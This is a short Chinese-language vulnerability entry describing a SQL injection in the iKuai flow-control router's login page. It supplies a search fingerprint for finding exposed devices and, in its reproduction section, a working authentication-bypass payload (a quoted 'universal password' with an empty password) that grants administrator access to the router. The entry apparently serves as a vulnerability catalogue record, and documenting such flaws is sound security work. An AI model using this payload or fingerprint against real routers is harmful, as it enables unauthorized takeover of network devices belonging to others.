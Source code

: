 # iKuai 流控路由 SQL注入漏洞

## 漏洞描述

iKuai 流控路由 存在SQL注入漏洞，可以通过SQL注入漏洞构造万能密码获取路由器后台管理权限

## 漏洞影响

<a-checkbox checked>iKuai 流控路由</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="登录爱快流控路由"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210531180103698.png)



使用万能密码登录后台



```plain
user: "or""=""or""="
pass: 空
```



![img](../../../.vuepress/public/img/image-20210531180212296.png)

